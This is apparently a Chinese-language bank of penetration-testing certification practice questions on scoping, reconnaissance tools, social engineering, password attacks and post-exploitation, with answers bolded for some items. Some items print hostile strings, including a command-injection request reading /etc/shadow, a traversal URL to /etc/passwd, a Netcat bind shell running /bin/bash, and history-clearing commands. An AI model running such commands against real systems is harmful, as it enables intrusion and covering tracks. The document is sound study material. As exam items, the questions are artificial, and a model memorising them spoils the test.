## 17. 作为渗透测试人员，你受邀为新客户进行渗透测试。客户想评估其对拥有普通员工网络特权的恶意内部人员的脆弱性。你应该执行哪种类型的测试？

1.  黑盒测试
2.  灰盒测试
3.  红盒测试
4.  白盒测试

# 渗透测试场景题

### 20. 物理安全渗透测试类型

你是一名渗透测试人员，受雇测试新客户设施的物理安全。你可以使用任何不破坏财产或伤害人员的方法尝试渗透其设施。客户要求你进行哪种类型的评估？

1.  基于合规性的评估
2.  基于目标的评估
3.  并购前评估
4.  供应链评估

### 21. 风险接受流程

你正与新客户商讨即将进行的渗透测试范围。你询问客户是否接受渗透测试可能导致其网络中断的事实，客户表示理解。你们刚才讨论了什么流程？

1.  尽职调查
2.  风险接受
3.  安全例外
4.  威胁建模

### 22. 风险响应类型：规避

你受命渗透客户设施，发现一名员工遗留的未锁侧门并借此进入。为防止再次发生，客户拆除该门并砌墙封堵。客户采取了哪种风险响应？

1.  接受
2.  规避
3.  应急措施
4.  利用

### 23. 窃取商业机密的威胁行为体

客户担心大量公司被寻找商业机密的远程攻击者攻破。哪类威胁行为体最符合此描述？

1.  高级持续性威胁（APT）行为体
2.  黑客活动团体
3.  内部威胁
4.  脚本小子

### 24. 扫描导致网络瘫痪的可能原因

你使用个人电脑上的工具包对网络设备进行扫描，突然网络中断。最可能的原因是什么？

1.  你的扫描导致边界路由器崩溃。
2.  你的扫描导致网络骨干交换机崩溃。
3.  你的电脑 IP 地址被加入白名单。
4.  你的电脑 IP 地址被加入黑名单。

### 25. “水晶盒”测试类型

客户要求对其网络执行“水晶盒”测试。这属于哪种渗透测试类型？

1.  黑盒测试
2.  基于目标的测试
3.  灰盒测试
4.  白盒测试

### 26. 黑盒渗透测试提供的信息

你计划对新客户采用黑盒渗透测试策略。你将获得什么信息？

1.  特权凭据
2.  网络拓扑图
3.  源代码
4.  无任何信息，需自行进行发现

### 27. 影响评估预算的主要因素

你计划建立安全评估。以下哪项对评估预算影响最大？

1.  合规要求
2.  日程安排
3.  范围界定
4.  目标风险

### 28. 范围蔓延

你在针对单个 Web 应用的渗透测试中，发现该 Web 服务器还存放着目标站点其他服务器的密码列表。你通知客户后，客户要求你验证这些服务器。当你开始用这些密码测试其他服务器时，发生了什么？

1.  威胁狩猎
2.  横向移动
3.  范围蔓延
4.  目标扩展

### 29. 威胁行为体类型：黑客活动家

你们讨论一名攻击者因对新法律不满而攻击政府机构。这属于哪类威胁行为体？

1.  脚本小子
2.  黑客活动家
3.  有组织犯罪
4.  国家行为体

### 30. 总服务协议 (MSA)

你需要一份文件设定双方组织的总体条款，并用于未来的支持协议合作。这份文件叫什么？

1.  竞业禁止协议
2.  保密协议 (NDA)
3.  总服务协议 (MSA)
4.  工作说明书 (SOW)

### 31. 医疗数据安全合规法律

哪部法律要求医疗相关组织遵守特定安全标准？

1.  联邦信息处理标准 (FIPS) 140-2
2.  1999 年格雷姆-里奇-比利雷法案 (GLBA)
3.  1996 年健康保险流通与责任法案 (HIPAA)
4.  2002 年萨班斯-奥克斯利法案 (SOX)

### 32. 金融机构客户信息处理法律

哪部法律规范金融机构如何处理客户个人信息？

1.  联邦信息处理标准 (FIPS) 140-2
2.  1999 年格雷姆-里奇-比利雷法案 (GLBA)
3.  1996 年健康保险流通与责任法案 (HIPAA)
4.  2002 年萨班斯-奥克斯利法案 (SOX)

### 33. 被动漏洞扫描

你尝试在不影响系统或数据的情况下识别 Web 应用漏洞。这属于哪种漏洞扫描类型？

1.  激进扫描
2.  合规扫描
3.  非凭据扫描
4.  被动扫描

### 34. 开源情报 (OSINT) 收集

你在渗透测试中未主动扫描网络，仅收集信息。你在收集哪类信息？

1.  背景调查
2.  商业记录搜索
3.  情报收集
4.  开源情报 (OSINT)

### 35. 非 OSINT 收集工具

以下哪个工具**不是**开源情报 (OSINT) 收集工具？

1.  Fingerprinting Organizations with Collected Archives (FOCA)
2.  Nessus
3.  Nslookup
4.  Whois

### 36. 计算机应急响应小组 (CERT)

讨论集中管理漏洞和安全缺陷知识的组织。某组织涉足广泛的网络安全活动，专注于安全漏洞和拒绝服务 (DoS) 事件，提供警报、事件处理及规避指南。该组织是？

1.  通用攻击模式枚举与分类 (CAPEC)
2.  计算机应急响应小组 (CERT)
3.  通用弱点枚举 (CWE)
4.  美国国家标准与技术研究院 (NIST)

### 37. 通用攻击模式枚举与分类 (CAPEC)

讨论集中管理漏洞知识的组织。某组织利用列表资源帮助识别和记录攻击及攻击模式，允许按机制搜索攻击，并按属性和前提条件拆解各攻击。该组织是？

1.  通用攻击模式枚举与分类 (CAPEC)
2.  计算机应急响应小组 (CERT)
3.  通用弱点枚举 (CWE)
4.  美国国家标准与技术研究院 (NIST)

## 38. 渗透测试工具选择：探测 Web 服务器信息


# 渗透测试题库

## 1. Web 服务器信息探测工具

你是一名渗透测试人员，正在为一个大型组织进行黑盒渗透测试。你想探测客户的 Web 服务器 IP 地址，查看与其关联的信息，例如它使用的密码套件。你应该使用什么工具来完成此任务？

1.  **Censys**
2.  Nslookup
3.  Maltego
4.  Shodan

## 2. 无线网络加密破解工具

你是一名渗透测试人员，正在进行黑盒渗透测试的信息收集阶段。你想窃听从客户设施发出的射频发射，并尝试从他们的无线网络捕获数据。你停在客户的停车场。你可以在 Linux 笔记本电脑上使用什么工具来破解客户无线网络使用的加密？

1.  **Aircrack-ng**
2.  nmap
3.  tcpdump
4.  Wireshark

## 3. 美国政府漏洞库

你和一位同事正在讨论一个由美国政府国家标准技术研究院（NIST）维护的开源研究来源。该来源提供当前安全性的摘要。这个政府存储库叫什么名字？

1.  通用攻击模式枚举与分类（CAPEC）
2.  计算机应急响应小组（CERT）
3.  通用漏洞披露（CVE）
4.  **国家漏洞数据库（NVD）**

## 4. 黑盒测试最耗时阶段

你是一名渗透测试人员，受邀为新客户执行黑盒渗透测试。评估的哪个阶段最有可能花费最长时间完成？

1.  攻击与利用阶段
2.  **信息收集与漏洞识别阶段**
3.  规划与范围界定阶段
4.  报告与结果沟通阶段

## 5. 域名所有权查询工具

你是一名渗透测试人员，受邀为新客户执行黑盒渗透测试。你想查明谁拥有客户的域名。你可以使用什么工具来查找此信息？

1.  Nslookup
2.  Maltego
3.  Shodan
4.  **Whois**

## 6. 合规性验证扫描类型

你是一名渗透测试人员，受邀确定客户的服务器场是否符合公司的软件基线。你将进行远程扫描。你应该执行哪种类型的扫描来验证合规性？

1.  **凭据扫描**
2.  发现扫描
3.  完整扫描
4.  隐蔽扫描

## 7. 凭据扫描账户权限

你是一名渗透测试人员，正在配置漏洞管理解决方案，以对客户网络上的服务器执行凭据扫描。应该为你提供哪种类型的账户？

1.  域管理员账户
2.  本地管理员账户
3.  域来宾账户
4.  **只读账户**

## 8. 代码审查分析类型

你是一名渗透测试人员，受客户委托对其 Web 应用程序执行代码审查。你将执行哪种类型的分析？

1.  动态代码分析
2.  模糊测试
3.  故障注入
4.  **静态代码分析**

## 9. 查询非活跃用户账户命令

你是一名渗透测试人员，拥有对域控制器的完全访问权限。你想发现过去 30 天内未活跃的用户账户。你应该使用什么命令？

1.  `dsrm -users "DN=client.com; OU=hq CN=users"`
2.  `dsquery user -inactive 4`
3.  `dsquery -o -rdn -limit 30`
4.  `dsuser -name -account -limit 3`

## 10. 测试协议对高峰负载测试的影响

你是一名渗透测试人员，正在与客户讨论测试约定的属性。以下哪一项将对在客户高峰负载期间对其生产系统的观察和测试产生最大影响？

1.  创建客户使用的关键生产系统的范围
2.  与客户建立白盒测试约定
3.  让客户管理团队签署任何侵入性测试的批准
4.  **设置访问其系统的测试时间表**

## 11. 资产发现差异原因分析（多选）

你是一名渗透测试人员，刚刚完成了对客户网络的简单合规性扫描。结果显示网络上有一部分资产。此信息与测试前提供的网络架构图所示内容不同。导致这种差异最可能的原因是什么？（选择两项。）

1.  DHCP 服务器配置错误
2.  凭据不正确
3.  **网络访问受限**
4.  **网络准入控制（NAC）**
5.  存储访问

## 12. 黑盒测试漏洞扫描类型

你是一名渗透测试人员，正在对客户网络进行黑盒渗透测试。你正在收集漏洞扫描结果。哪种类型的扫描将在你的测试范围内提供重要信息？

1.  合规性扫描
2.  **发现扫描**
3.  完整扫描
4.  隐蔽扫描

## 13. 凭据扫描类型识别

你是一名渗透测试人员，正在扫描新客户的网络。你使用的漏洞扫描器正在使用服务访问级别，以更好地评估组织内多个资产中的漏洞。正在执行哪种类型的扫描？

1.  **凭据扫描**
2.  非侵入式扫描
3.  被动扫描
4.  提权扫描

## 14. 避免检测的扫描类型

你是一名渗透测试人员，客户希望你扫描他们的系统。他们希望你不惜一切代价避免被发现。客户不希望其网络安全团队知道正在进行渗透测试。你将执行哪种类型的扫描？

1.  合规性扫描
2.  发现扫描
3.  完整扫描
4.  **隐蔽扫描**

## 15. 端口 23 服务识别

你是一名渗透测试人员，目前正在为新客户进行灰盒渗透测试的侦察阶段。你在客户的一台服务器上运行漏洞扫描，发现端口 23 是开放的。这指向什么？

1.  该服务器是域名服务（DNS）服务器
2.  该服务器是安全外壳（SSH）服务器
3.  **该服务器是 Telnet 服务器**
4.  该服务器是文件传输协议（FTP）服务器

## 16. 外部漏洞扫描结果优先级排序

你是一名渗透测试人员，正在为新客户进行渗透扫描。在外部漏洞扫描期间，你发现了以下结果：

| **漏洞** | **端口** |
| --- | --- |
| 发现多个不受支持的 Apache 版本 | 80, 443 |
| HTTPS 连接接受 SSLv3 | 443 |
| Apache 服务器上启用了 Mod_rewrite | 80, 443 |
| 发现 Windows Server 主机 | 21 |

鉴于这些结果，你应如何确定攻击策略的优先级？

1.  **过时的软件可能包含易受攻击的组件。**
2.  Web 服务器可能会泄露敏感信息。
3.  正在使用弱密码管理实践。
4.  弱协议可能被拦截。

## 17. 生物识别传感器绕过原因分析

你是一名渗透测试人员，正在为新客户进行渗透测试。经过多次尝试后，你通过使用自己的指纹（无需利用漏洞）未经授权地通过了生物识别传感器获得了访问权限。生物识别设备发生了什么情况，允许你获得访问权限？

1.  设备配置更倾向于真阴性。
2.  设备设置为故障关闭。
3.  设备复制了有效用户的指纹。
4.  **设备调整更倾向于假阳性。**

## 18. 代码审查误报术语

你是一名渗透测试人员，正在为新客户进行渗透测试。你正在使用工具执行源代码审查。渗透工具错误地识别了一个漏洞。这种情况叫什么？

1.  假阴性
2.  **假阳性**
3.  真阴性
4.  真阳性

## 19. CVSS 风险分类

你是一名渗透测试员，正在为一位新客户进行测试。你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (CVSS) 得分为 3.6。该漏洞属于哪个风险类别？

1.  **低**
2.  中
3.  高
4.  严重

## 20. 密码字典攻击信息收集

你是一名渗透测试员，正在为一位新客户进行渗透测试。你正在利用社交媒体收集客户组织内不同员工的信息。你创建了一个列表，包含员工个人资料中频繁使用的流行词汇。这些信息可用于哪种类型的攻击？

1.  **字典攻击**
2.  漏洞利用链攻击
3.  Karma 攻击
4.  会话劫持攻击

## 21. 密码策略控制

你是一名渗透测试员，正在为一位新客户进行渗透测试。在最近的一次测试后，你发现客户的员工正在使用字典词和季节性词汇作为密码。控制常见字典词被用作密码的最佳方法是什么？

1.  **配置密码筛选器。**
2.  在三次错误尝试后禁用账户。
3.  将密码长度从 7 个字符扩展到 14 个字符并添加特殊字符。
4.  实施密码历史记录限制。

## 22. 交叉编译目的

你是一名渗透测试员，正在为一位新客户进行渗透测试。你打算为渗透活动交叉编译代码，然后部署它。为什么要计划交叉编译代码？

1.  为了添加额外的库
2.  为了允许你检查源代码
3.  为了在多个平台上运行它
4.  **为了在不同架构上运行它**

## 23. 彩虹表攻击特征（多选）

你和一位同事正在讨论彩虹表攻击与暴力破解攻击的区别。以下哪些特征将彩虹表攻击与暴力破解攻击区分开来？（选择两项。）

1.  **彩虹表攻击在攻击时减少计算周期。**
2.  **彩虹表必须包含预编译的哈希值。**
3.  彩虹表攻击不需要访问哈希密码。
4.  彩虹表攻击必须在网络上执行。
5.  彩虹表攻击绕过最大登录失败限制。

## 24. 彩虹表破解原理

你是一名渗透测试员，正在为一位新客户进行渗透测试。你想对已捕获的密码文件使用彩虹表。彩虹表如何破解密码？

1.  **通过比较哈希值以识别已知值**
2.  通过解密密码
3.  通过反哈希密码
4.  通过暴力测试哈希值

## 25. IoT 设备安全性

你和一位同事正在讨论基于消费者的物联网 (IoT)。IoT 设备通常比为传统台式计算机设计的系统安全性更低。为什么该说法是正确的？

1.  设计 IoT 设备的开发人员不太关心安全性。
2.  管理员难以大范围应用相同的安全标准。
3.  **IoT 系统通常缺乏某些稳健解决方案所需的硬件算力。**
4.  监管机构通常对 IoT 系统有较低的约束要求。

## 26. SCADA 设备攻击

你是一名渗透测试员，正在为一位新客户进行渗透测试。你在范围内的一个 VLAN 中发现了一台数据采集与监视控制 (SCADA) 设备。哪种操作最能针对该设备产生潜在的破坏性后果？

1.  发起 DNS 缓存投毒攻击
2.  发起 Nessus 漏洞扫描
3.  发起 SMB 漏洞利用
4.  **发起 SNMP 密码暴力破解攻击**

## 27. 特殊网络设备识别

你和一位同事正在讨论常用的特殊网络设备。以下哪项不是用于控制制造设备和环境系统的常用特殊网络设备？

1.  工业控制系统 (ICS)
2.  可编程逻辑控制器 (PLC)
3.  **实时操作系统 (RTOS)**
4.  数据采集与监视控制系统 (SCADA)

## 28. 社会工程学：审讯

你和一位同事正在讨论社会工程学技术。其中一种技术涉及通过恐吓盘问员工以收集信息。这种社会工程学技术叫什么？

1.  冒充
2.  **审讯**
3.  网络钓鱼
4.  短信钓鱼

## 29. 社会工程学：权威原则

财务部的 Sue 收到一封来自公司总裁的电子邮件，表明需要向一家新供应商进行电汇。然而，Sue 和总裁都不知道这家新供应商是谁。总裁声称他从未发送过要求转账的电子邮件。攻击者试图使用哪种激励技术？

1.  **权威原则**
2.  恐惧原则
3.  好感原则
4.  稀缺原则
5.  社会认同原则

## 30. 社会工程学：冒充

你的服务台团队成员接到一个自称是员工的个人的电话。此人请求协助解锁一个已被锁定的账户。服务台成员在授予访问权限前要求提供身份证明。来电者试图实施哪种类型的攻击？

1.  **冒充**
2.  审讯
3.  网络钓鱼
4.  偷窥

## 31. 社会工程学：鱼叉式网络钓鱼

一名渗透测试员使用 SET 复制了公司托管在云端的 Web 邮件门户，然后发送电子邮件试图获取总裁的登录凭据。这是哪种类型攻击的示例？

1.  诱导攻击
2.  冒充攻击
3.  **鱼叉式网络钓鱼攻击**
4.  鲸钓攻击

## 32. 社会工程学：语音钓鱼

你组织的总裁报告称，他收到了大量来自自称是服务台部门人员的电话。该人员要求总裁验证其网络身份验证凭据，因为他的计算机正在网络上广播。该人员试图实施哪种类型的攻击？

1.  冒充
2.  审讯
3.  **语音钓鱼**
4.  鲸钓攻击

## 33. 凭证获取后续步骤

你是一名渗透测试员，正在为一位新客户进行测试。你设法获得了一台笔记本电脑的访问权限。为了从笔记本电脑获取凭证，你的下一步应该是什么？

1.  使用暴力破解获取用户密码。
2.  **进行 LLMNR/NETBIOS-NS 查询。**
3.  利用 BeEF 框架捕获凭证。
4.  执行 ARP 欺骗投毒。

## 34. ARP 欺骗目标选择

你是一名渗透测试员，正在为一位新客户进行测试。你正在对客户网络上的一个交换机进行 ARP 欺骗。你应该欺骗以下哪个 MAC 地址以获取最多的信息？

1.  客户端的 MAC 地址
2.  域控制器的 MAC 地址
3.  Web 服务器的 MAC 地址
4.  **网关的 MAC 地址**

## 35. 中间人攻击

你和一位同事正在讨论可能发生的不同类型的攻击。其中一种攻击是两方之间的通信被拦截并转发，而双方都不知道发生了拦截。你们在讨论哪种类型的攻击？

1.  **中间人攻击**
2.  鱼叉式网络钓鱼攻击
3.  传递访问攻击
4.  URL 劫持攻击

## 36. 无线渗透测试范围

你是一名渗透测试员，将为一位新客户进行测试。客户要求你执行无线渗透测试。在测试开始前，你最可能需要哪些范围目标信息？

1.  客户使用的无线设备的频段和频率
2.  客户首选的无线接入点供应商
3.  客户拥有的无线设备数量
4.  **待测试的物理位置和网络 ESSID**

## 37. 邪恶双生热点后续利用

你是一名渗透测试员，正在为一位新客户进行测试。你已成功部署了一个邪恶双生热点，并开始看到客户的一些流量。为了捕获客户所有的未加密 Web 流量，你接下来想采取什么步骤？

1.  收集用户凭据以解密流量。
2.  通过冒充受信任的 CA 实施证书颁发机构（CA）攻击。
3.  **实施 HTTP 降级攻击。**
4.  执行中间人（MITM）攻击。

## 38. 蓝牙攻击类型

你和一位同事正在讨论攻击者可能使用的不同类型的攻击。其中一种攻击是指向目标发送未经请求的蓝牙消息时进行的。你们在讨论哪种类型的攻击？

1.  Bluesnarfing 攻击（蓝牙窃取攻击）
2.  Bluesniping 攻击（蓝牙狙击攻击）
3.  **Bluejacking 攻击（蓝牙劫持攻击）**
4.  War chalking 攻击（战争粉笔标记攻击）

## 39. 命令注入攻击识别

你是一名渗透测试员，正在为一位新客户进行测试。你在一台服务器上发现了以下日志条目：

*   `Nov 19 2018 00:21:15 httpd[2342]: GET`
*   `/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow`

尝试了哪种类型的攻击？

1.  缓冲区溢出
2.  **命令注入**
3.  跨站脚本攻击
4.  密码攻击

## 40. 跨站脚本攻击（XSS）识别

你和一位同事正在讨论可能发生的不同类型的攻击。其中一种攻击是一种客户端攻击，它通过 Web 浏览器利用 JavaScript 代码来操纵 HTML iframe。你们在讨论哪种类型的攻击？

1.  缓冲区溢出
2.  **跨站脚本攻击（XSS）**
3.  中间人攻击（MITM）
4.  SQL 注入（SQLi）

## 41. 空会话漏洞利用

你是一名渗透测试员，正在为一位新客户进行测试。你在客户的域控制器中发现了一个漏洞。该漏洞是域控制器上启用了空会话。可以执行哪种类型的攻击来利用此漏洞？

1.  攻击者可以尝试传递哈希攻击以中继凭据。
2.  攻击者可以尝试密码暴力破解以登录主机。
3.  **攻击者可以尝试 RID 循环来枚举用户和组。**
4.  攻击者可以尝试会话劫持以冒充系统账户。

## 42. SQL 注入缓解措施（多选）

你是一名渗透测试员，刚刚完成了对一位新客户的测试。你发现一个遗留 Web 应用程序容易受到 SQL 注入攻击。客户表示，修复该漏洞需要架构变更，管理层不想冒任何风险影响当前应用程序。以下哪种条件可以在提供低工作量、短期解决方案的同时将 SQL 注入风险降至最低？（选择两项。）

1.  从存储过程中识别并移除动态 SQL。
2.  从代码中识别并移除内联 SQL 语句。
3.  **识别并清理所有用户输入。**
4.  识别恶意输入的来源并阻止该 IP 地址。
5.  对 SQL 语句使用黑名单验证。
6.  **对 SQL 语句使用白名单验证。**

## 43. 目录遍历攻击识别

你是一名渗透测试员，正在为一位新客户进行测试。在审查 Web 应用程序的日志时，你发现了一个可疑请求。该请求显示以下 URL：`http://www.mycompany.com/about.php?i=../../../etc/passwd`。该请求试图做什么？

1.  该请求试图进行跨站脚本攻击。
2.  **该请求试图进行目录遍历。**
3.  该请求试图进行远程文件包含。
4.  该请求试图进行用户枚举。

# 第 7 章：模拟考试 2

## 1. Web 应用可用性测试攻击类型

你是一名渗透测试员，正在为一位新客户进行测试。客户希望你审查一个新的 Web 应用程序的可用性。测试员应利用哪种类型的攻击？

1.  **TCP SYN 洪水攻击**
2.  SQL 注入
3.  跨站脚本攻击（XSS）
4.  XMAS 扫描

## 2. Web 应用扫描结果优先级

你是一名渗透测试员，正在为一位新客户进行测试。你正在扫描客户的 Web 应用程序。在审查扫描结果时，以下哪个漏洞最为关键，应优先进行利用？

1.  点击劫持
2.  证书过期
3.  完整路径泄露
4.  **存储型跨站脚本攻击（XSS）**

## 3. 敏感数据传输方法

你是一名渗透测试员，正在为一位新客户进行测试。客户要求你对一个 Web 应用程序进行测试。你发现用户登录过程使用 HTTP GET 方法发送表单字段数据。为了降低敏感数据暴露的风险，HTML 表单应使用哪种方法发送？

1.  HTTP OPTIONS 方法
2.  **HTTP POST 方法**
3.  HTTP PUT 方法
4.  HTTP TRACE 方法

## 4. 竞争条件示例

你是一名渗透测试员，正在为一位新客户进行测试。你和客户正在讨论竞争条件利用。以下哪项是竞争条件的示例？

1.  跨站请求伪造（XSRF）
2.  硬编码凭据
3.  SQL 注入（SQLi）
4.  **检查时间到使用时间（TOCTTOU）**

## 5. 会话劫持关键信息

你是一名渗透测试员，正在为一位新客户进行测试。你希望针对客户的 Web 应用程序发起会话劫持攻击。为了确保攻击成功，获取哪些信息很重要？

1.  **会话 Cookie**
2.  会话票据
3.  用户名
4.  用户密码

## 6. 


最近，多名员工成为网络钓鱼攻击的受害者。他们收到一封看似来自公司总裁的电子邮件。邮件称，如果员工不按邮件指示操作并点击邮件中的链接，将面临纪律处分。攻击者利用了社会工程学的哪个原则？

1. 权威
2. 恐惧
3. 稀缺
4. 社会认同

## 7.

你是一名渗透测试员，正在为一位新客户进行测试。你在一台被攻陷的机器上运行以下命令：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

你正在执行什么操作？

1. 你正在创建沙箱。
2. 你正在捕获凭据。
3. 你正在清除 Bash 历史记录。
4. 你正在升级 Shell。

## 8.

你是一名渗透测试员，正在为一位新客户进行测试。在测试客户网络期间，你发现了一些未加引号的服务路径。如何利用这些漏洞？

1. 通过尝试破解服务账户密码
2. 通过尝试 DLL 劫持攻击
3. 通过尝试定位薄弱的文件和文件夹权限
4. 通过尝试提权攻击

## 9.

最近，一名用户注意到他们的机器在过去一周表现异常。他们遇到了输入延迟，系统运行迟缓。用户发现了一些文本文件，似乎包含其电子邮件和即时通讯对话的片段。用户运行了病毒扫描，但未检测到任何内容。哪种类型的恶意软件可能正在影响这台机器？

1. 后门
2. 键盘记录器
3. 勒索软件
4. Rootkit

## 10.

你是一名渗透测试员，正在为一位新客户进行测试。你受命评估客户的物理安全，通过进入企业办公室。你正在寻找一种方法，允许你在工作时间和非工作时间都能进入大楼。对你来说，尝试哪种方法最有效？

1. 尝试徽章克隆。
2. 尝试撬锁。
3. 尝试绕过锁。
4. 尝试尾随进入。

## 11.

你是一名渗透测试员，正在为一位新客户进行测试。你正在尝试进行物理安全评估，并希望在测试期间使用“门下工具”。你应该使用以下哪种入侵技术？

1. 出口传感器触发
2. 撞匙开锁
3. 绕过锁
4. 技术开锁

## 12.

你和一位同事正在讨论即将进行的物理安全评估。话题转到了人员闸。以下哪种类型的物理安全攻击是人员闸所利用的？

1. 冒充
2. 技术开锁
3. 尾随进入
4. 偷窥

## 13.

你是一名渗透测试员，正在为一位新客户完成测试。你在交接结束时运行了 `chkconfig --del <servicename>` 命令。你为什么要运行这个命令？

1. 检查持久化
2. 启用持久化
3. 移除持久化
4. 报告持久化

## 14.

你是一名渗透测试员，正在为一位新客户完成测试。你已成功利用应用程序漏洞，现在需要从 Linux 会话中删除命令历史记录。哪个命令可以删除命令历史记录？

1. `$ cat history /clear`
2. `$ history -c`
3. `$ history --remove`
4. `$ rm -f ./history`

## 15.

你和一位同事正在讨论渗透测试中可用的不同工具。以下哪项是可在 Windows 系统上使用的工具，用于建立到远程 Windows 系统控制台的命令行访问，类似于较旧的 Telnet 客户端？

1. `PsExec`
2. 远程登录 (`Rlogin`)
3. 远程 Shell (`RSH`)
4. 虚拟网络计算 (`VNC`)

## 16.

你和一位同事正在讨论渗透测试中可用的不同工具。以下哪项允许进行远程管理和数据收集，且安装在所有 Windows 系统上？

1. Samba (`SMB`)
2. 虚拟网络计算 (`VNC`)
3. Windows 管理规范 (`WMI`)
4. Windows 远程桌面 (`RDP`)

## 17.

你是一名渗透测试员，正在为一位新客户进行测试。你想使用 `nmap` 扫描远程系统。你使用了以下命令：

```
nmap 142.78.32.0/24
```

你将扫描多少个 TCP 端口？

1. 256
2. 1,000
3. 1,024
4. 65,535

## 18.

你是一名渗透测试员，正在为一位新客户进行测试。你在一台计算机上运行了以下 `nmap` 扫描：`nmap -sV 192.168.10.5`。客户表示他们已在环境中禁用了 Telnet。然而，`nmap` 扫描结果显示端口 22 关闭，而端口 23 对 SSH 开放。是什么原因导致了这种情况？

1. 组织并未禁用 Telnet。
2. `nmap` 结果对端口 23 包含误报。
3. 服务运行在非标准端口上。
4. 端口 22 被过滤了。

## 19.

你是一名渗透测试员，正在为一位新客户进行测试。你计划使用 `hping` 命令向远程系统发送流量。如果你使用脚本 `hping remoteclient.com -S -V -p 80`，远程系统将看到什么类型的流量？

1. 发往 TCP 端口 80 的 HTTP 流量
2. 发往 TCP 端口 80 的 HTTPS 流量
3. 发往 TCP 端口 80 的 TCP SYN 包
4. 发往 TCP 端口 80 的 TCP 三次握手

## 20.

你是一名渗透测试员，正在为一位新客户进行测试。你计划使用 `nmap`。如果你想扫描已识别设备上的所有 TCP 端口，必须使用哪个 `nmap` 开关？

1. `-p-`（或 `-p 1-65535`）
2. `-p ALX`
3. `-p 1-65544`
4. `-port 1-65534`

## 21.

你是一名渗透测试员，正在为一位新客户进行测试。你计划使用 `nmap` 进行操作系统指纹识别，使用公司提供的包含所有 IP 地址列表的文本文件。你需要在代码中包含哪些开关才能使用该文本文件进行操作系统指纹识别？（选择两项。）

1. `-iL`
2. `-O`
3. `-oN`
4. `-oX`
5. `-sS`
6. `-sV`

## 22.

你是一名渗透测试员，正在为一位新客户进行测试。你想对客户的外部域执行被动侦察。对你来说，最好的选择是什么？

1. `CeWL`
2. `OpenVAS`
3. `Peach`
4. `Shodan`

## 23.

你是一名渗透测试员，正在为一位新客户进行测试。你已成功利用一台 DMZ 服务器，该服务器似乎正在监听一个出站端口。你想将该流量转发回一台设备。哪些是最佳工具？（选择两项。）

1. Cain and Abel
2. `Netcat`
3. `Nmap`
4. 安全 Shell (`SSH`)
5. `Tcpdump`
6. `Wireshark`

## 24.

你是一名渗透测试员，正在为一位新客户进行测试。你正在进行测试并已攻陷客户的主机。在该设备上创建 `Netcat` 监听器的正确语法是什么？

1. `nc -lp 4444 -e /bin/bash`
2. `nc -lvp 4444 /bin/bash`
3. `nc -p 4444 /bin/bash`
4. `nc -vp 4444 /bin/bash`

## 25.

你是一名渗透测试员，正在为一位新客户进行测试。你想针对 NetBIOS 名称服务。以下哪个命令最有可能被用来利用 NetBIOS 名称服务？

1. `arpspoof`
2. `burpsuite`
3. `nmap`
4. `responder`

## 26.

你是一名渗透测试员，正在为一位新客户进行测试。你想从公开可用的来源进行开源情报 (OSINT) 数据收集。你可以使用以下哪些工具？（选择两项。）

1. `BeEF`
2. `Dynamo`
3. `Maltego`
4. `SET`
5. `Shodan`
6. `Wireshark`

## 27.

你是一名渗透测试员，正在为一位新客户进行测试。你想在 Windows 网络上捕获用户哈希。你想收集广播消息，并在捕获哈希后具备使用哈希进行身份验证的能力。你应该使用什么工具？

1. `Impacket`
2. `Metasploit`
3. `Responder`
4. `Wireshark`

## 28.

你是一名渗透测试员，正在为一位新客户进行测试。你想对客户的应用程序执行凭证暴力破解攻击。你应该使用哪个工具？

1. `Hashcat`
2. `Hydra`
3. `John the Ripper`
4. `Peach`

## 29.

你是一名渗透测试员，正在为一位新客户进行测试。作为渗透测试的一部分，你需要与客户位置的计算机系统和设备建立主动连接，以枚举并指纹识别它们。你可以使用以下哪些工具来做到这一点？（选择两项。）

1. `Aircrack-ng`
2. `hping`
3. `nmap`
4. `whois`

## 30.

你是一名渗透测试员，正在为一位新客户进行测试。你想使用 `Metasploit`。哪个命令将启动 `Metasploit` 数据库？

1. `db_connect`
2. `db_init`
3. `msfconsole`
4. `msfvenom`

## 31.

你是一名渗透测试员，正在为一位新客户进行测试。你想捕获网络上的 NTLM v2 哈希，用于传递哈希攻击。以下哪个工具**不**允许你捕获网络上的 NTLM v2 哈希？

1. `Ettercap`
2. `Mimikatz`
3. `Metasploit`
4. `Responder`

## 32.

你是一名渗透测试员，正在为一位新客户进行测试。你已捕获 NTLM 哈希并想进行传递哈希攻击。不幸的是，你不知道网络上哪些系统可能接受该哈希。你应该使用什么工具来进行测试？

1. `Drozer`
2. `Hashcat`
3. `Hydra`
4. `Kismet`

## 33.

你是一名渗透测试员，正在为一位新客户进行测试。你想部署一个恶意网站作为测试的一部分，以利用该客户员工的浏览器。测试可以利用什么工具？

1. **浏览器利用框架**
2. Metasploit
3. 开放 Web 应用安全项目 (OWASP)
4. 社会工程学工具包 (SET)

## 34.

你是一名渗透测试员，正在为一位新客户进行测试。你计划利用客户的网站，创建一个包含关于该客户的常用单词和流行语的自定义字典。你可以利用什么工具名称来协助构建自定义字典？

1. **CeWL**
2. Hashcat
3. Hydra
4. Medusa

## 35.

你是一名渗透测试员，正在为一位新客户进行测试。在内部渗透测试期间，观察到多个多播和广播名称解析请求在网络中传输。你想冒充网络资源并收集身份验证请求。你应该使用什么工具？

1. Ettercap
2. Medusa
3. Tcpdump
4. **Responder**

## 36.

你是一名渗透测试员，正在为一位新客户进行测试。你想进行搜索，查看连接到互联网的客户计算机和设备。你想能够使用各种过滤器。你可以使用什么工具来完成此任务？

1. Censys
2. **Shodan**
3. TheHarvester
4. Whois

## 37.

你是一名渗透测试员，正在为一位新客户进行测试。你想进行搜索，查看客户的计算机和设备是否连接到互联网，以及它们的地理 IP 信息是否可用。你可以使用什么工具来完成此任务？

1. **Censys**
2. Shodan
3. TheHarvester
4. Whois

## 38.

你是一名渗透测试员，正在为一位新客户进行测试。你正在对特定的客户数据库服务器进行测试。你想检测该服务器上的任何漏洞。什么工具能最好地协助你？

1. Nessus
2. Nikto
3. **Sqlmap**
4. OpenVAS

## 39.

你是一名渗透测试员，正在为一位新客户进行测试。在灰盒渗透测试期间，你想建立一个反向 Shell 利用，使目标网络上的受损系统“回连”到你笔记本电脑上设置的监听器，并允许你远程控制受损系统。你可以使用什么远程访问工具？

1. Wireshark
2. Impacket
3. **Netcat**
4. Responder

## 40.

你是一名渗透测试员，正在为一位新客户进行测试。在灰盒渗透测试期间，你想建立一个绑定 Shell 利用，在客户网络上受损的系统上设置一个监听器。你可以使用哪些远程访问工具来做到这一点？（选择两项。）

1. Empire
